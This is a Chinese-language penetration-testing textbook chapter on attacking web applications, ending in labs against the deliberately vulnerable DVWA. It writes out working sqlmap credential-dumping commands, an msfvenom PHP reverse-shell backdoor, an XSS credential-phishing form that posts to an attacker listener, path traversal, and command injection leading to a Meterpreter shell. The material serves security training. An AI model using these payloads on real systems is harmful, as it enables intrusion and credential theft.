# 攻击 Web 应用程序

Web 应用程序是最受攻击的妥协方法。今天，我们有提供电子商务服务的 Web 应用程序，这是攻击者的目标，因为他们可以获取信用卡和个人可识别信息等详细信息。拥有互联网存在的企业必定拥有一个可以被公众访问的 Web 应用程序。Web 渗透测试需要技能和时间，了解 Web 应用程序的组件、攻击类型和可以使用的工具将帮助您在短时间内专注于可利用的漏洞。

在本章中，您将学习有关 Web 应用程序及其组件的知识。您将了解不同类型的 Web 应用程序安全测试以及渗透测试的相关知识。您还将了解 HTTP 协议的基础知识，以及在渗透测试过程中各个方面的相关内容。最后，您将学习一些常见的 Web 应用程序攻击以及如何利用 Kali Linux 中的一些工具通过直觉执行各种攻击。

随着本章的进行，您将学习以下主题：

+   准备您的环境

+   Web 应用程序安全测试的类型

+   Web 应用程序的组件

+   了解 HTTP 协议

+   常见的 Web 应用程序攻击

+   攻击 Web 应用程序

# 技术要求

为了跟随本章中的示例和说明，请确保您具备以下技术要求：

+   Kali Linux 2019.1

+   Metasploitable 2

# 准备您的环境

在本章中，我们将使用各种 Web 应用程序和工具。

在上一章中，您学习了如何使用 Burp Suite；在本章中，我们也将利用 Burp Suite 的一些部分。

请注意您的 Metasploitable 2 虚拟机的 IP 地址。在本章的各个部分，我们将积极使用这个 IP 地址。回顾一下，可以通过登录虚拟机（默认用户名和密码为`msfadmin`）并输入`ifconfig`命令来获取 IP 地址。

# Web 应用程序安全测试的类型

有三种类型的 Web 应用程序测试，定义如下：

+   **动态测试**：这种测试不需要 Web 应用程序的源代码。其目的是查找可能被攻击者从不受信任的位置（如互联网）利用的漏洞。

+   **静态测试**：这种测试使用 Web 应用程序的源代码。它通过从 Web 应用程序内部寻找漏洞来工作，而不是试图从不受信任的位置攻击 Web 应用程序。

+   **渗透测试**：这是本章将重点关注的测试类型。它涉及使用人为因素来模拟攻击者可能如何利用 Web 应用程序。它利用技能、直觉和各种工具。

# Web 应用程序的组件

Web 应用程序已经从静态网页发展为提供多种功能的复杂应用程序。您可以将 Web 应用程序视为一个简单地在互联网上运行的普通计算机应用程序。

在本节中，我们将讨论 Web 应用程序的各个组件。

# Web 应用程序架构

Web 应用程序架构是各种组件之间的交互。Web 应用程序架构的三种主要类型如下：

+   **单页应用程序（SPA）**：这些现在很常见，**极简主义**是 Web 应用程序的潮流。它们通过动态更新内容到当前页面来工作。**异步 JavaScript 和 XML**（**AJAX**）用于提供动态内容。这些类型的应用程序仍然容易受到攻击。

+   **微服务**：这些是轻量级的，专注于单一功能。微服务利用各种编程语言，因此在这种架构中存在漏洞。

+   **无服务器**：这利用处理服务器和基础架构管理的云提供商。这使应用程序可以在不必担心基础架构的情况下工作。这里存在诸如破损的身份验证、不充分的日志记录、不安全的应用程序存储等漏洞。

在这三种模型中，存在安全风险。因此，无论使用哪种模型，都需要进行渗透测试。

# Web 应用程序语言

由于 Web 应用程序如此多样和动态，有几种语言用于编写 Web 应用程序。这些语言有时会以可能严重影响整个 Web 应用程序安全性的方式进行交互。

这些常用的语言是 Python、Ruby 和 Java。让我们看看这些语言的一些注意事项。

# Python

Python 是一种经常使用的语言，因为它简单而强大。它创建了一个生态系统，可以在许多不仅与 Web 应用程序相关的不同应用程序中运行。

Python 使用一种称为**pickles**的序列化机制。序列化是创建可以存储并稍后恢复到其原始形式的数据的过程。使用**pickles**允许将对象转换为字节流，然后再转换回来。使用 pickles 可以用于各种事情，如 cookie 值和`auth`令牌。

示例 pickle 如下所示：

```
def verifyAuth(self, headers):
   try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
```

此函数正在接受一个 base64 编码的`AuthToken`，对其进行解码并检查其值。当然，如果被攻击者拦截，`AuthToken`可以被解码。或者，攻击者可以编写一个利用程序来创建修改后的`AuthToken`。

这只是 Web 应用程序开发人员可能忽视的安全漏洞的一个方面。

# Ruby

Ruby 是一种流行的语言，用于 Web 应用程序，因为 Ruby on Rails。 Ruby on Rails 是一个框架，包括开发人员创建利用数据库的 Web 应用程序所需的一切。该框架可免费使用，社区积极为其做出贡献，这使其成为一种受欢迎的选择。

Ruby 也容易受到攻击，例如使用`字符串插值`的漏洞。字符串插值允许您替换 Ruby 代码的结果。

例如，以下代码将输出`Hello User!`，因为`#{}`中定义的任何内容都将被评估：

```
name = "User"
puts "Hello, #{name}!"
```

修改字段为`#{%x['ls']}`将欺骗服务器列出其目录结构。

由于 Ruby 用于快速部署 Web 应用程序，可能会出现我们刚讨论过的漏洞。在 Ruby 中存在许多其他可以利用的漏洞，这些漏洞是由于 Ruby 内部的糟糕编码而产生的。

# Java

Java 是一种存在已久的编程语言。它被广泛使用，不仅用于 Web 应用程序。也就是说，它以存在安全漏洞而闻名。这些漏洞影响编程语言的各个方面，以及利用它的应用程序。要了解 Java 中存在的漏洞数量以及它如何跨多个应用程序或操作系统，只需在 Rapid 7 的漏洞和利用数据库中搜索**Java**。如下截图所示，结果令人震惊：



图 1：存在的 Java 漏洞列表

您可以通过访问[`www.rapid7.com/db/?q=Java&type=nexpose`](https://www.rapid7.com/db/?q=Java&type=nexpose)来获取最新的搜索结果。

今天存在许多其他 Web 应用程序语言，没有一种是没有漏洞的。在进行渗透测试时，识别基础编程语言将帮助您专注于可能存在的漏洞。

# 理解 HTTP 协议

**超文本传输协议**（**HTTP**）是一种客户端-服务器协议。Web 浏览器被归类为客户端，它向服务器发出请求，服务器将对请求进行响应。默认情况下，HTTP 使用端口`80`，但如果需要，可以配置此端口。

HTTP 是无状态的，这意味着服务器不会存储与向其发出请求的各个用户相关的任何信息。例如，您可以向 Web 应用程序发送多个请求，它们将被单独处理。HTTP 也是明文协议，因此通过 HTTP 发送的任何敏感信息都可以使用诸如 Wireshark 之类的工具进行嗅探：


图 2: 通过 HTTP 传输的明文凭据

SSL 用于保护数据，使用的协议是**超文本传输安全协议**（**HTTPS**）。默认情况下，HTTPS 在端口`443`上运行，如果需要，也可以重新配置。

让我们来看一些 HTTP 请求和响应。

# HTTP 请求和响应

当客户端向服务器发送请求时，这称为 HTTP 请求。在此 HTTP 请求中，我们有标头和正文。标头包含请求、cookie 和编码信息等信息。正文包含将要交换的实际数据。

在以下屏幕截图中，我们有一个 HTTP 请求头的示例：


图 3: HTTP 请求头

第一行以`GET`请求方法开始，然后是所请求的`/download.html`资源，以及 HTTP 版本，即`HTTP/1.1`。

在 HTTP 请求头中还可以找到一些其他请求方法。这些如下：

| `POST` | 用于向服务器发送数据。 |
| --- | --- |
| `DELETE` | 用于删除文件。 |
| `PUT` | 用于上传文件。  |
| `HEAD` | 用于仅`GET` HTTP 标头。 |

此标头中有一些字段。让我们看看相关字段：

+   **主机**: Web 服务器可能托管多个站点。此字段用于定义我们要访问的主机。

+   **用户代理**: 此字段定义用于访问主机的客户端。

+   **Cookie**: 这是为了跟踪会话信息而交换的。

+   **引用者**: 此字段将显示您是否已从另一个 URL 重定向。攻击者将操纵引用字段以将用户重定向到恶意网站。可以使用 XSS 进行此操纵。

当服务器响应时，它将以 HTTP 响应方式响应，其结构与 HTTP 请求类似。在以下屏幕截图中，我们有一个 HTTP 响应的示例：



图 4: HTTP 响应示例

在第一行，我们有一个状态码为`200`。可能出现的各种代码定义如下：

| **状态码** | **定义** | **示例** |
| --- | --- | --- |
| `1xx` | 信息 | `100`: 服务器同意处理客户端请求 |
| `2xx` | 成功 | `200`: 请求成功 |
| `3xx` | 重定向 | `301`: 页面已移动 |
| `4xx` | 客户端错误 | `403`: 禁止页面 |
| `5xx` | 服务器错误 | `500`: 内部服务器错误 |

有关状态代码的完整列表，请访问以下网址：[`www.w3.org/Protocols/rfc2616/rfc2616-sec10.html`](https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html)。

在响应中，我们有一些有趣的字段：

+   **服务器**: 此字段定义 Web 服务器的服务器版本。立即，我们可以看到一些可以在渗透测试中使用的侦察信息。

+   **Set-cookie**: 在前面的屏幕截图中未设置此项。此字段将填充一个 cookie 值，服务器将使用该值来识别客户端。

# 常见的 Web 应用程序攻击

网络应用程序的攻击和向量正在迅速发展。随着使用互联网的人数增加，企业必须适应并利用复杂的网络应用程序为客户甚至员工提供服务。将这些应用程序放在互联网上显然会使它们面临风险。大多数企业都认真对待安全问题，并且通过使用各种软件开发生命周期，有一些真正安全的网络应用程序存在。

然而，随着安全措施变得更加严格，攻击也变得更加强大。除了攻击变得更加复杂之外，还存在人为错误的因素。只需要一小段编写不良的代码就可以利用网络应用程序。

在本节中，我们将考虑一些今天存在的常见网络应用程序攻击。

# 包含攻击（LFI/RFI）

文件包含漏洞存在于编写不良的网络应用程序中。这种类型的漏洞允许攻击者向服务器上的文件提交数据，甚至上传文件。

**本地文件包含**（**LFI**）漏洞涉及网络应用程序和底层操作系统上的本地文件。如果利用了这种漏洞，攻击者将能够读取和执行文件或代码。

**远程文件包含**（**RFI**）漏洞涉及执行远程到网络应用程序的代码。在这种攻击中，攻击者可以在远程位置的服务器上托管易受攻击的代码。然后攻击者可以利用网络应用程序访问远程服务器并执行代码。

# 跨站请求伪造（CSRF）

要理解 CSRF，让我们退一步来谈谈网络应用程序如何处理会话。在使用 HTTP 时，跟踪用户身份验证是通过 cookie 来完成的。Cookie 通常应该是安全的，具有强大的加密强度和熵，并且应该通过安全通道传输，如 HTTPS。

当浏览器提交该 cookie 到一个网站而不检查请求的来源时，这就留下了一个漏洞，CSRF 就利用了这个漏洞。CSRF 涉及攻击者使用恶意代码向目标网站发出请求，看起来好像是从原始发送者发出的。合法的 cookie 被使用，并且伪造的请求将被发送到目标网络应用程序。网络应用程序将找到并接受这个伪造的请求，因为它有一个有效的 cookie，并且请求中定义的操作将被处理。

为了使 CSRF 起作用，需要满足一些条件：

+   被攻击的网络应用程序不应该检查 HTTP 头中的引用者。

+   这允许网络应用程序接受来自外部页面的请求。

+   网络应用程序将接受来自 URL 或表单的数据修改。

+   攻击者必须能够确定网络应用程序所期望的所有输入值。例如，当重置密码时，网络应用程序会寻找密码和可能的密码确认的值。

+   被攻击的用户必须加载恶意页面。

CSRF 攻击的一个例子是一个恶意页面，其中包含多个图片。当无意中的用户被引导到这个页面时，图片会加载。一些图片可能是一个**动作**，导致浏览器向目标网络应用程序发出某些请求。

# 跨站脚本（XSS）

XSS 是在网络应用程序中发现的最常见的漏洞之一。这种类型的攻击已经在**OWASP 十大**漏洞列表上存在了一段时间。这种攻击利用注入技术，允许攻击者执行可以执行各种目的的脚本。浏览器会执行这个脚本，因为它认为这个脚本来自网络应用程序。

跨站脚本可以分为三种不同类型。这些类型定义如下：

1.  **持久型（类型 1）**：在这种 XSS 类型中，恶意输入被存储在目标服务器中。例如，它可以存储在其数据库、论坛和评论字段中。

1.  **反射型 XSS（类型 II）**：在这种 XSS 类型中，数据立即由 Web 应用程序返回。这可以通过错误消息、搜索查询或任何其他响应来实现。这里的主要点是数据是由请求返回的。

1.  **基于 DOM 的 XSS（类型 0）**：在这种 XSS 类型中，漏洞存在于客户端而不是服务器端。例如，服务器端的 HTML 页面不会改变，但在客户端，由于**文档对象模型**（**DOM**）环境的修改，页面会以不同的方式执行。

当攻击者利用 XSS 攻击时，可以访问诸如 cookies、会话密钥和其他敏感信息之类的组件。

# SQL 注入（SQLi）

SQLi 攻击已经存在很长时间了，但它们在今天编写不良的 Web 应用程序中仍然有效。这种攻击适用于使用后端数据库的 Web 应用程序，如 Microsoft SQL 和 MySQL。

当这种攻击成功时，可以访问敏感信息。可以修改数据库中的数据（删除、更新和添加），并且可以绕过身份验证和授权控制。

有各种类型的 SQL 注入攻击。其中一些定义如下：

+   **基于错误的攻击**：这种攻击通过向数据库提供无效的命令来实现。这通常是通过需要输入的 Web 应用程序的部分完成的，例如用户输入。当输入这些无效的命令时，我们希望服务器会以包含详细信息的错误回复。例如，服务器可能会回复其操作系统、版本，甚至完整的查询结果。

+   **基于联合的攻击**：这种攻击利用`UNION`运算符来扩展查询的结果，最终允许攻击者运行多个语句。关键是结构必须与原始语句保持一致。

+   **盲注入攻击**：这种攻击之所以被称为**盲**，是因为没有显示错误消息。在这种攻击中，通过一系列的真假查询来查询数据库，以获取可用于攻击的信息。

了解这些攻击是有益的，因为它们将帮助您在渗透测试期间使用正确类型的攻击。我们将利用一个名为`sqlmap`的工具，在本章后面执行一些 SQL 注入攻击。

# 命令执行

命令执行是一种攻击，通过这种攻击可以执行面向操作系统的命令，通过易受攻击的 Web 应用程序实现。这是由一个将不安全的用户输入传递给服务器的应用程序实现的。

命令执行攻击可能导致严重的妥协，这取决于您可以执行什么类型的系统命令以及 Web 应用程序的特权级别。

# 攻击 Web 应用程序

作为渗透测试人员，您不应该仅仅依赖于可以用于 Web 应用程序攻击的工具。对它们有很好的了解肯定会在您的渗透测试中有所帮助，因为您可能会时间紧迫。

在本节中，我们将讨论各种工具，并看看如何使用它们来对抗各种 Web 应用程序。

# Nikto

Nikto 是默认包含在 Kali Linux 中的 Web 服务器扫描程序。它能够提取或识别以下信息：

+   服务器版本

+   潜在危险的程序或文件

+   服务器配置项

+   已安装的 Web 服务器

Nikto 的一些主要特点如下：

+   SSL 支持

+   HTTP 代理支持

+   使用输入文件扫描多个目标的能力

+   调整扫描引擎的能力

Nikto 并不是设计为隐秘的。在渗透测试中使用这个工具很可能会被 IPS/IDS 检测到。

# 使用 Sqlmap

Sqlmap 是一个默认包含在 Kali Linux 中的开源工具。它用于自动检测和利用 SQL 注入漏洞，以及接管 Web 应用程序的数据库。它利用了一系列选项，允许指纹识别、数据访问、执行等。

`sqlmap`的语法是`sqlmap <options>`。

`sqlmap`的特点如下：

+   支持多种 SQL 产品，如 MySQL、PostgreSQL、Microsoft SQL、Oracle 和 SQLite。

+   它支持 SQL 注入技术，如布尔盲注、基于时间的盲注、堆叠查询、基于错误的注入、UNION 查询和带外带。

+   它有能力枚举用户、密码哈希、权限等。

+   它有能力识别密码哈希的类型，并支持使用字典攻击来破解它。

+   它有能力与数据库的底层操作系统进行交互。这可以用于下载或上传文件，使用交互式命令提示符或 Meterpreter 会话创建反向 shell，或执行命令。

+   它支持将整个数据库或其中的特定部分，如特定列或一系列条目或字符，导出为文件。

+   它有能力利用 Meterpreter `getsystem`命令进行权限提升。

现在我们已经简要概述了 Sqlmap，让我们看看这个工具的实际操作。我们将使用这个工具对内置在 Metasploitable 2 中的**Damn Vulnerable Web Application**（DVWA）执行一些攻击。

# 使用 Sqlmap 执行攻击

让我们看看如何使用 Sqlmap 对默认安装在 Metasploitable 2 中的 DVWA 执行各种攻击。

# 信息收集

我们将首先进行一些信息收集。在执行任何攻击之前，让我们看看我们可以获得什么信息：

1.  在 Kali Linux 中使用 Firefox ESR，导航到您的 Metasploitable 2 IP 虚拟机的 IP 地址。点击 DVWA，并使用以下凭据登录：

+   **用户名**：`admin`

+   **密码**：`password`

1.  在左侧导航窗格上点击 DVWA Security，并在脚本安全下选择低。然后，点击提交：



图 5：将 DVWA 安全级别设置为低

1.  接下来，点击 SQL 注入，并在用户 ID 字段中输入数字 1。在点击提交之前，请确保您已启用 Burp Suite 代理，并且您的浏览器已配置为使用 Burp Suite 代理。一旦代理启用，点击提交。

1.  注意被拦截的字段。我们对`cookie`和`PHPSESSID`感兴趣*:*。


图 6：DVWA SQLi 拦截

1.  我们将首先尝试使用`--dbs`选项枚举所有数据库。为此，我们将使用我们捕获的`cookie`和`PHPSESSID`值。我们将使用的命令如下：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" --dbs
```

在这个命令中，我们使用`-u`参数定义目标 URL。这个 URL 是 DVWA Web 服务器（Metasploitable 2）的 IP 地址，带有`GET`请求(`/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`)。我们指定`cookie`和`PHPSESSID`值，并使用`--dbs`选项列出所有数据库。

注意以下输出。Sqlmap 能够识别数据库，并询问我们是否要继续测试其他数据库：


图 7：Sqlmap 数据库识别

1.  我们将选择*Y*跳过特定于其他 DMBS 的测试有效负载，*N*用于之后提示的问题。一旦`sqlmap`完成，它将为您提供一些有价值的信息。在这里，我们已经确定了一些注入点，有关底层操作系统的信息，以及存在的数据库名称：


图 8：具有有价值信息的 Sqlmap 输出

我们可以使用`-f`选项来对数据库进行指纹识别，如下所示：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -f
```

我们得到以下输出：



图 9：确定软件版本

现在我们已经获得了与 DVWA 相关的信息，让我们进一步进行一些额外的攻击。

# 从 SQL 表中转储用户详细信息

我们将执行的下一个攻击是从 SQL 数据库中获取用户信息。为此，我们将针对`dvwa`数据库。让我们开始吧：

1.  使用以下命令获取 DB 中的当前表：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --columns
```

在这个命令中，我们正在寻找与`dvwa`数据库（`-D dvwa`）相关的列（`--columns`）。请注意，在输出中，我们有一个有趣的表，列出为`users`，列如`firstname`，`lastname`，`userid`和`password`：


图 10：`dvwa`数据库中用户表的列

现在我们已经确定了一个有趣的表，让我们继续转储表，看看我们是否能够使用字典攻击破解哈希。

1.  通过以下命令，我们将转储所有表的表条目：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --dump
```

在这个命令中，我们使用`--dump`选项来查看`dvwa`数据库中所有表的所有条目。当命令运行时，`sqlmap`将询问是否应该使用字典攻击来尝试破解密码。选择`yes`选项，`sqlmap`将提示输入字典文件。对于这个演示来说，使用内置的字典文件就足够了。注意输出；您将看到我们已经转储的用户表，以及其中所有的详细信息，包括每个用户的密码的哈希形式和明文形式：


图 11：使用 Sqlmap 转储的用户详细信息

在本节中，我们已经看到了 Sqlmap 的有效性。使用这个工具可以在渗透测试中有时间限制时自动化一些攻击。我们特别看了如何进行信息收集，枚举表格和提取用户凭据。Sqlmap 还有很多其他功能，所以它是您渗透测试工具包中必不可少的工具。

# 使用 PHP 创建后门

让我们看看如何使用恶意的`php`文件来创建一个对 web 应用程序的基础操作系统的后门。在这里，我们将使用 DVWA，因为它允许我们上传文件。

确保 DVWA 的安全级别设置为低。默认的用户名是`admin`，密码是`password`。

我们将使用 MSFvenom 创建一个 PHP 文件，该文件将为我们提供一个反向 shell。用于监听连接的处理程序将在 Metasploit 中设置。步骤如下所示：

1.  在 Kali Linux 的终端窗口中，输入以下命令创建一个恶意的 PHP 后门：

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP Address> LPORT=<Port to connect to> -f raw > msfv-shell.php
```

在这个命令中，我们将 payload（`-p`）定义为`php/meterpreter_reverse_tcp`，然后我们定义攻击机器的 IP 地址（`LHOST`）和反向 shell 将建立的端口（`LPORT`）。我们不使用任何编码器；我们只想要原始的`php`文件（`-f raw`）。文件名应该是`msfv-shell.php`（`> msfv-shell.php`）。

1.  生成 PHP 文件后，我们将把它上传到 DVWA。登录到 DVWA，然后导航到左侧的上传部分。点击浏览...，然后导航到创建`msfv-shell.php`文件的位置。然后，选择它。文件上传后，注意上传的位置：



图 12：上传了 MSFVenom 恶意 PHP 文件

1.  在连接到上传的 PHP 页面的位置之前，我们需要在 Metasploit 中设置一个处理程序。为此，我们将使用`msfconsole`命令打开 Metasploit Framework。

1.  Metasploit Framework 加载后，我们将使用以下命令创建处理程序：

```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```

1.  处理程序创建后，我们可以导航到上传位置，然后点击 msfv-shell.php 文件：



图 13：访问恶意的 PHP 文件

1.  一旦文件被访问，在 Metasploit 控制台上，你将拥有一个 Meterpreter 会话：


图 14：建立反向 Meterpreter shell

从这里，你可以选择进入系统 shell，上传/下载文件等。

# 执行 XSS 攻击

在这里，我们将使用 DVWA 并查看如何执行反射型和存储型 XSS 攻击。我们将保持 DVWA 的安全级别设置为低。

# 执行反射型 XSS 攻击

在这种情况下，我们将执行反射型 XSS 攻击。在这种攻击中，我们将向 Web 应用程序发送一个请求，迫使它显示一些敏感信息。我们将按照以下方式执行攻击：

1.  登录到 DVWA 并点击 XSS Reflected。这个页面的默认操作是简单地`echo`你放入字段中的任何输入。因此，我们将尝试强制应用程序为我们提供诸如`cookie`和`PHPSESSID`之类的信息。

1.  在“你叫什么名字？”字段中，我们将输入一个简单的脚本，它将为我们提供我们正在寻找的`cookie`和`PHPSESSID`数据。输入以下命令：

```
<script>alert(document.cookie);</script>
```

在这个脚本中，我们告诉 Web 应用程序通过提供弹出窗口来**警报**我们。在这里，我们调用`document.cookie`，它将提供当前的`cookie`和`PHPSESSID`值。注意输出；我们现在有了我们想要的`cookie`和`PHPSESSID`值：



图 15：使用反射型 XSS 提供敏感数据

现在我们已经获得了所有必需的细节，我们将尝试在这个页面中注入一个表单，以欺骗用户输入他们的凭据。我们还将强制 Web 应用程序将输出发送到其他地方，而不是在屏幕上弹出：

1.  在 Kali Linux 中打开一个终端窗口。我们将使用`nc -lvp 80`命令在端口`80`上创建一个`netcat`简单的 Web 服务器。在这个命令中，我们使用`nc`命令启动`netcat`。`-l`开关用于启用监听模式，`v`用于详细输出，`p`定义我们将监听的端口号。一旦命令被执行，`netcat`将监听连接。

1.  在相同的 XSS Reflected 页面上，输入以下脚本：

```
<h3>Please login to proceed</h3> <form action=http://192.168.34.153>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

在这个脚本中，我们创建了一个简单的表单，要求输入`username`和`password`。注意`form action=`字段。在这里，我们使用了攻击者 PC（Kali Linux）的 IP 地址，我们在那里启动了`netcat`监听器。

1.  现在，一个表单被显示出来。输入一个随机的`username`和`password`，然后点击 Logon：



图 16：使用 XSS 注入恶意表单

一旦你点击 Logon，看一下你在启动`netcat`监听器的终端上的输出。Web 应用程序已经将登录请求发送到我们的监听器，并且凭据以明文形式可见：


图 17：在 netcat 监听器上捕获的登录请求

通过利用反射型 XSS 可以进行许多其他攻击，但关键是这种漏洞的严重性。正如我们所看到的，可能获取敏感数据，这可能对任何具有易受攻击的 Web 应用程序的组织造成损害。

# 执行存储型 XSS 攻击

让我们看看如何执行存储型 XSS 攻击。在这里，我们将使用 DVWA 的 XSS Stored 部分。我们将尝试再次获取`cookie`和`PHPSESSID`：

1.  登录到 DVWA 并点击 XSS stored。在这里，我们有一个人们可以签名的留言簿。我们将尝试在消息字段中输入一些代码。

1.  为名称输入任何值，然后使用我们之前使用的相同脚本：

```
<script>alert(document.cookie);</script>
```

1.  一旦你点击“Sign guestboo”，`cookie`和`PHPSESSID`的详细信息将被显示：



图 18：使用存储的 XSS 提供敏感数据

由于这是存储的 XSS 攻击，如果您导航到 DVWA Web 应用程序的另一部分并返回到 XSS 存储，弹出窗口将自动出现，因为恶意脚本存储在数据库中。

# 执行文件包含攻击

让我们执行本地和远程文件包含攻击。这两种攻击都将在 DVWA 上进行，我们将保持 DVWA 的安全级别设置为低。

对于 LFI 攻击，我们将尝试在 Web 服务器上浏览本地文件。在 Linux 操作系统上存在的有价值的文件是`/etc/passwd`文件。让我们开始：

1.  一旦我们登录到 DWVA，点击左侧的文件包含。

1.  让我们尝试导航到`/etc/passwd`文件。由于我们不知道 Web 应用程序正在操作的本地工作目录是什么，我们将使用一系列字符来执行目录遍历。在地址栏中，在`?page=`后添加`../../../../../etc/passwd`，如下面的屏幕截图所示。在目录遍历中使用`../`用于返回到上一个目录。这里需要进行实验，因为您可能不知道服务器的目录结构中目标 Web 应用程序的位置：


图 19：使用 LFI 进行目录遍历

1.  一旦您按下*Enter*，您将获得大量输出。在输出中，您将找到`/etc/passwd`文件的内容：


图 20：暴露的/etc/passwd 文件内容

通过使用 LFI 攻击，您可以做的不仅仅是暴露系统文件。您还可以上传文件到 Web 服务器并启动反向 shell。

# 执行命令执行攻击

我们将使用 DVWA 并查看如何执行命令执行攻击。我们将保持 DVWA 的安全级别设置为低：

1.  登录到 DVWA 应用程序，然后单击左侧的命令执行。

1.  让我们尝试执行一个简单的命令，比如列出当前目录。由于表单需要 IP 地址，我们将定义一个 IP，但使用附加命令使用附加字符`&&`。为了列出目录，我们将使用`-ls -la`。完整的注释将是`192.168.34.153 && ls -la`。

在这个命令中，我们正在定义一个随机 IP（我正在使用我的 Kali 虚拟机的 IP）并使用`&&`附加一个额外的命令。这个命令正在列出`ls`目录。我们可以通过使用长列表`-l`查看这些文件，并包括所有文件`a`。这是我们收到的输出：



图 21：命令执行攻击

在这里，我们有实际的 ping 命令，但在底部，我们有当前目录的列表。现在，我们知道命令执行是可能的。让我们看看是否可以使用 Metasploit 获得远程 shell。

1.  从终端窗口，我们将使用`msfconsole`命令启动 Metasploit 框架。

1.  我们将使用脚本交付利用。输入`use exploit/multi/script/web_delivery`命令，然后`show options`查看可用选项：



图 22：在 Metasploit 中加载利用

1.  现在，我们需要定义目标。通过使用`show targets`命令，我们可以看到这个利用将适用于哪些目标。在我们的情况下，我们将使用`PHP`：



图 23：利用可用的目标

1.  现在，我们将配置利用。设置以下选项：

```
set Target 1
set LHOST 192.168.34.153
set LPORT 1337
set payload php/meterpreter/reverse_tcp
```

请记住，`LHOST`是您的 Kali 虚拟机 IP，`LPORT`可以是任意随机端口号。我们使用的有效载荷是反向 TCP `meterpreter` shell。您可以使用`show options`命令确认您的选项：



图 24：配置利用选项

1.  配置这些选项后，使用`run`命令运行利用。注意输出。突出显示的代码是我们将在命令执行攻击中使用的，用于将反向 shell 生成到我们的攻击系统。复制该代码，并且不要关闭终端窗口或退出 Metasploit：


图 25：使用反向 PHP 脚本定义的利用正在运行

1.  返回到 DVWA 中的命令执行页面。现在，输入一个 IP 地址，并使用`&&`和 Metasploit 生成的代码进行追加：


图 26：使用命令执行攻击运行恶意脚本

一旦您点击提交，您将启动一个`meterpreter`会话。返回到您配置利用的终端窗口。

1.  您现在会看到您已经启动并运行了`meterpreter`会话。按下*Enter*将带您返回到利用配置页面，但您的会话仍将保持建立状态。您可以使用`sessions -i`命令来检查这一点。要访问此会话，请使用`sessions -i [会话 ID]`命令：


图 27：Meterpreter 会话已建立

1.  从这里开始，您将能够利用 Meterpreter 的全部功能。您可以使用`shell`命令访问操作系统 shell。从这里，您将能够进一步发动攻击：



图 28：访问操作系统 shell

正如我们所见，通过这次攻击，您有许多选项可用于进一步利用。使用 Metasploit Framework 等工具可以轻松利用命令执行漏洞。

# 总结

在本章中，您已经了解了 Web 应用程序及其架构，以及它们的组件。您已经了解了不同类型的 Web 应用程序测试，我们专门关注了渗透测试。您深入了解了 HTTP 协议以及请求和响应头中的详细信息。最后，您学习了各种 Web 应用程序攻击以及如何在测试环境中执行它们。

在第九章中，*开始无线攻击*，我们将讨论无线架构、它们的攻击以及如何执行它们。

# 问题

1.  列举三种 Web 应用程序架构中的一种。

1.  HTTP 和 HTTPS 之间有什么区别？

1.  在 HTTP 响应头中可以操纵什么来执行 XSS 攻击？

1.  列举两种 Web 应用程序攻击类型。

1.  什么工具可以用来创建 PHP 后门有效负载？
